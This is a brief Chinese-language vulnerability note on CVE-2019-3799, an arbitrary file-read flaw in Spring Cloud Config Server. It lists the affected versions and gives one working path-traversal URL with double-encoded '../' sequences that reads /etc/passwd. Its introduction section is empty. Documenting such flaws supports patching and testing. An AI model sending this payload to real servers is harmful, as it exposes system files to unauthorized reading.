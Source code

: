 ```yaml
---
title: "（CVE-2019-3799）Spring Cloud Config Server 任意文件读取"
id: zhfly3134
---
```


# （CVE-2019-3799）Spring Cloud Config Server 任意文件读取

## 一、漏洞简介

## 二、漏洞影响

Spring Cloud Config 2.1.0 to 2.1.1

Spring Cloud Config 2.0.0 to 2.0.3

Spring Cloud Config 1.4.0 to 1.4.5

其他不受支持的老版本 （如Spring Cloud Config1.3及其以下版本）

## 三、复现过程

```
http://www.0-sec.org/test/pathtraversal/master/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f../etc/passwd 
```